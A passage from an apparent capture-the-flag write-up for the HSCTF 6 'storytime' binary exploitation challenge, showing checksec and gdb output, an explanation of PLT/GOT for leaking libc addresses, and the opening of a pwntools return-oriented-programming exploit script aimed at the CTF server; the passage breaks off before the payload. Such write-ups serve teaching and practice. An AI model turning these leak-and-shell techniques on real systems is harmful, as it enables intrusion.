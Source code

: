 A bunch of reads and writes. Let's run file and checksec against the binary.
```shell
» file ./storytime  
./storytime: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3f716e7aa7e236824c52ed0410c1f14739919822, not stripped

» checksec ./storytime
[*] '/root/Documents/hsctf-6/pwn/storytime/bin/storytime'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Okay so no PIE and dynamically linked. let's fire up gdb and see if we have a PLT entry for system(). If we have that, we can just use that to call system('/bin/sh') and get a shell.
```shell
» gdb ./storytime 
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 8.2.1 using Python engine 3.7
Reading symbols from ./storytime...(no debugging symbols found)...done.
gef➤  print 'system@plt'
No symbol table is loaded.  Use the "file" command.
gef➤  
```

No PLT entry. I quickly wrote a script to leak the libc address of the read() function since that does have a PLT entry. This requires knowing how the Procedural Linkage Table (PLT) and the Global Offset Table (GOT) work. For more information, see [this](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).

Basically, if you have a dynamically linked file (such as the one we have now), whenever you call a function, you use its entry from the PLT table. This entry contains a `jmp` instruction to the GOT table entry of that specific function. If this is the first time this function is being called, the program goes through a whole process to find the address of this function in the libc libary being used for the process. Once it's done that, it overwrites that GOT entry with this address from libc, so all subsequent calls jump straight there instead of having to re-lookup the address every time.

Since we know read() has been called already (because we are passing input to it through read()), it means that if we print the address of read@got (i.e read's GOT entry), we will leak the address of read() from the libc library that is in use.

I simplified the above explanation a bit to save space, so I recommend reading more about it by following the link above (or just googling it by yourself)

The script is shown below.
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './storytime'

context.log_level = 'critical'
elf = ELF(BINARY)
sh = remote("pwn.hsctf.com", 3333)

# Addresses we already know from the binary
write_plt = elf.plt['write']
read_got = elf.got['read']
main_addr = elf.symbols['main']

# Gadgets
pop_rdi = 0x0000000000400703
pop_rsi_r15 = 0x0000000000400701
```